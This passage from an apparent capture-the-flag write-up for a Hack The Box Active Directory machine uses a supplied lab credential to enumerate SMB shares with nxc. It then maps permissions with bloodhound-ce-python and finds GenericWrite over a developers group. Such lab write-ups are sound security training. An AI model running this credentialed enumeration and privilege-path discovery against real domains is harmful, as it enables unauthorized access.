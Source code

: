 We already given a credential `levi.james:KingofAkron2025!`, so let's check the SMB shares.

# Auth as levi.james

## SMB

```bash
> nxc smb puppy.htb -u levi.james -p 'KingofAkron2025!' --shares
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.10.11.70     445    DC               [*] Enumerated shares
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```

We only have `READ` permission on common shares but there's a `DEV` share that looks interesting. Unfortunately, it's not accessible yet. Let's collect the domain information using `bloodhound-ce-python`:

```bash
bloodhound-ce-python -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' -c All --zip -op levi -dc dc.puppy.htb -ns 10.10.11.70
```

Then, analyze it with `bloodhound`. After checking for `Outbound Object Control` from `levi.james`, we have `GenericWrite` over the `DEVELOPERS` group because `levi.james` is a member of `HR` group.

![alt text](image.png)
